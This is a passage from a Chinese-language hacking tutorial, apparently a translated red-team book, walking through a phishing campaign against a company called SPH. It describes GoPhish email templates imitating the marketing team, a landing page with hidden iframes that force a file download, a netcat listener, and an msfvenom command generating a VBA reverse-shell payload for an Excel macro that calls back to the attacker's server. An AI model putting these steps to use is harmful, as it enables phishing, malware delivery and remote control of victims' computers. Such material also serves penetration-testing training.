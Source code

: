 我们在“用户和群组”菜单中添加我们想要定位的用户，然后转到“电子邮件模板”以编写我们的消息内容：

![](./Chap2/4.MessageContent.png)


我们设计电子邮件的内容的方式类似于我们从市场人员那里获得的电子邮件（相同的签名，相同的图表颜色，相同的字体等）。该电子邮件将邀请用户单击下载文件的链接。该链接将由GoPhish自动填写（多亏{{.URL}}变量，如此的自动化）。
包含链接而不是直接附加恶意文件可以降低被垃圾邮件过滤器捕获的可能性。


我们在http://www.noip.com/上为前线阵地（Front Gun）服务器注册了一个免费的DNS名称。像sph- group.ddns.net这样的东西已经足够了。我们稍后在启动行动时，需要将此DNS名称指定为变量{{.URL}}的值。

由于我们不需要诱骗用户向我们提供凭据，因此我们不关心网页的内容。我们将自动触发文件下载，然后将其重定向到真正的SPH网站。在Gophish的“登陆页面”菜单中，我们粘贴以下代码:

```
<html>	
<iframe width="1" height="1" frameborder="0" src=" [File location on Gophish machine]"></iframe>
<iframe width="1" height="1" frameborder="0" src=" [File location on Gophish machine]"></iframe>
</html>
```


除了一个小细节：恶意软件之外，网络钓鱼活动已准备好启动。这将成为下一章的主题。

### 2.1.3 恶意文件
关于我们可以发送目标的文件类型，有几种可能性。但是，可执行（.exe）文件非常可疑，并且将被所有电子邮件客户端丢弃。我们将使用一些更聪明的东西：一个包含恶意代码的excel电子表格，它可以回连我们的服务器，获取执行命令，然后发回结果：反向shell。


#### 1)纯VBA
Visual Basic是一种脚本语言，可以嵌入到Office文档（Word，Excel，PowerPoint等）中。它在企业界大量使用用以处理数据。因此，员工习惯于在打开文档时执行宏（VBA代码）。

如果您是VBA专家，我相信您可以快速创造能与我们的Front Gun服务器通信的代码，检索执行命令，然后在受感染的计算机上执行它们。然而，由于VBA对我来说绝非小菜一碟，所以我将依靠自动框架提供的多种工具来攻击系统和生成有效载荷:Metasploit. 它默认安装在Kali Linux上。


由于我们首先要测试代码，因此我们使用Netcat工具在Front Gun服务器上设置了一个监听器。它通常被称为黑客的瑞士军刀。它只是发送和接收原始套接字连接，但它也可以用于获取反向shell，传输文件等。

此命令将打开端口443并等待传入连接：
`root@FrontGun:~# nc -l -p 443	` 
接下来，我们使用Metasploit的msfvenom 用于生成恶意VBA攻击载荷：
```
root@FrontGun:~# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp -e generic/none -f vba lhost=FrontGun_IP  lport=443
```
这将为x86架构生成反向shell攻击负载，无需任何特殊编码（通用/无）。我们将代码复制/粘贴到Excel宏中:
